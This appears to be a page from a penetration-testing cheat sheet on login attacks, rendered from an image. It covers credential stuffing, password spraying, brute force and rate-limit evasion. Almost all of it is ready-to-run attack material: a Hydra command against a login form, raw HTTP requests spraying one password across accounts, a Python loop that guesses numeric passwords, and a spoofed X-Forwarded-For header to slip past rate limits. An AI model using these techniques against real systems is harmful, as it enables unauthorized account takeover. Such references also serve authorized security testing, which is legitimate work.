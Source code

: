 
## Credential Stuffing

### Wordlist Attack
```bash
# Hydra example
hydra -L users.txt -P passwords.txt target.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials"
```

### Password Spraying
```http
POST /login HTTP/1.1
Host: target.com
Content-Type: application/json

[
  {"username":"user1","password":"Spring2024!"},
  {"username":"user2","password":"Spring2024!"},
  {"username":"user3","password":"Spring2024!"}
]
```

---

## Brute Force Attacks

### Simple Brute Force
```http
POST /login HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

username=known_user&password=123456
```

### Incremental Brute Force
```python
# Python example
import requests
for i in range(1000, 9999):
    response = requests.post('https://target.com/login', data={
        'username': 'known_user',
        'password': str(i)
    })
    if "Welcome" in response.text:
        print(f"Found password: {i}")
        break
```

### Rate Limit Bypass
```http
POST /login HTTP/1.1
Host: target.com
X-Forwarded-For: 1.1.1.1
Content-Type: application/x-www-form-urlencoded

username=admin&password=guess1
```

---